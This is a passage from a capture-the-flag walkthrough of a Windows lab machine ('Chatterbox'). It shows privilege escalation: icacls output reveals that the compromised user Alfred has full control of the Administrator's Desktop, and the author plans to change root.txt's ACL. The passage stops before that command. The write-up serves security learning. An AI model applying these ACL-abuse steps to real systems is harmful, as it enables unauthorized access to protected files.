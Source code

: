 ![[Chatterbox-06.png]]

# Privilege Escalation

Looking into root.txt, it is strange that we have access to the Admin directory but are not able to read/edit the root.txt file.

```cmd
cd C:\Users\Administrator\Desktop
type root.txt
```

![[Chatterbox-07.png]]

## icacls

we will know icalcs https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls which displays or modifies discretionary access control lists (DACLs) on specified files, and applies stored DACLs to files in specified directories.

We don’t have read access to the file now:

```cmd
icacls root.txt
```

```txt
C:\Users\Administrator\Desktop>icacls root.txt
icacls root.txt
root.txt CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files

```

If we look at the directory for Desktop itself, Alfred actually has permissions on it:

```bash
icacls C:\Users\Administrator\Desktop
```

```txt
C:\Users\Administrator\Desktop>icacls C:\Users\Administrator\Desktop
icacls C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                               CHATTERBOX\Administrator:(I)(OI)(CI)(F)
                               BUILTIN\Administrators:(I)(OI)(CI)(F)
                               CHATTERBOX\Alfred:(I)(OI)(CI)(F)

Successfully processed 1 files; Failed processing 0 files

```

But, since we have permission `(I)(OI)(CI)(F)` on Desktop folder, we can change that with `icacls`:
